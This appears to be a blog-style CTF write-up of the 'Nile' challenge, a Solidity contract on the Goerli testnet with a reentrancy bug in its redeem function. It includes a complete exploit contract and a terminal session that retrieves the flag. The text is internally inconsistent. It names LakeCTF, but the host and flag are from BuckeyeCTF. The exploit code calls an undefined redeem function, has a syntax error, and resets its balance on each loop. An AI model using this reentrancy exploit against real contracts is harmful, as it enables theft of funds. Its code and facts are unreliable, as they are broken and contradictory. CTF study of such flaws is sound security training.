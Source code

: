 ```yaml
---
published: 2022-11-11
title: Nile

---
```


Nile is the first of the two CTF challenges featured in the LakeCTF 2022.

The challenge is quite straightforward, we have a vulnerable contract deployed on the Goerli testnet

```Solidity
contract Nile {
    mapping(address => uint256) balance;
    mapping(address => uint256) redeemable;
    mapping(address => bool) accounts;

    event GetFlag(bytes32);
    event Redeem(address, uint256);
    event Created(address, uint256);
    
    function redeem(uint amount) public {
        require(accounts[msg.sender]);
        require(redeemable[msg.sender] > amount);

        (bool status, ) = msg.sender.call("");

        if (!status) {
            revert();
        }

        redeemable[msg.sender] -= amount;
        balance[msg.sender] += amount;
        emit Redeem(msg.sender, amount);
    }

    function createAccount() public {
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 100;
        accounts[msg.sender] = true;

        emit Created(msg.sender, 100);
    }

    function deleteAccount() public {
        require(accounts[msg.sender]);
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 0;
        accounts[msg.sender] = false;
    }

    function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
}
```

In order to solve the challenge we need to triggere the `GetFlag` event

```Solidity
 function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
```

It requires two basic conditions:

- being in the account mapping
- having more than 1000 cois

The first one is simply resolved by calling the `createAccount` method.  
For the second one we are theoretically limited to withdraw at most 100 coins, however we can see that the  
`redeem` function actually performs something weird:

```Solidity
(bool status, ) = msg.sender.call("");
```

it calls a function of the caller contract.

> [!important] With a quick google review it looks like the contract is vulnerable to reentrancy attacks.

What we need to do is to deploy another contract with a fallback method, and, when Nile calls our Exploit we call the redeem function 11 times.

```Solidity
  fallback() external {
      attack();
  }

  function attack() public {
			redeemed = redeemed + 1;
      if (redeemed > 11) { return; }
      targetContract.createAccount();
      targetContract.redeem(99);
      attack();        
  }
```

So the contract code perform the initial checks 11 times

```Solidity
require(accounts[msg.sender]);
require(redeemable[msg.sender] > amount);


(bool status, ) = msg.sender.call("");
// Loops again while Exploit.redeemed < 11
```

And then increase the credit 11 times again

```Solidity
// Executes 11 times after Exploit.redeemed >= 11
redeemable[msg.sender] -= amount;
balance[msg.sender] += amount;
emit Redeem(msg.sender, amount);
```

Putting everything together

```Solidity
contract Exploit {
    uint256 redeemed = 0;
    Nile targetContract;

    constructor (address targetAddress) public{
        targetContract = Nile(targetAddress);
				targetContract.createAccount();
        redeem(1);
    }

    function getFlag(bytes32 token) public {
        targetContract.getFlag(token));
    }

    function attack() public {
				redeemed = redeemed + 1;
        if (redeemed > 11) { return; }
        targetContract.createAccount();
        targetContract.redeem(99);
        attack();        
    }

    fallback() external {
        attack();
    }

}
```

We then use RemixIDE to upload the contract, insert the token, validate the flag and we are done!

```Bash
$ nc -v nile.chall.pwnoh.io 13379
> Connection to nile.chall.pwnoh.io port 13379 [tcp/*] succeeded!
> Hello! The contract is running at 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af on the Goerli Testnet.
> Here is your token id: 0x0e5f322ff9c116bc51143a27b094276f
> Are you ready to receive your flag? (y/n)
$ y
> Here is the flag: buckeye{n0_s4fem4th_t1ll_s0l1d1ty_08}
```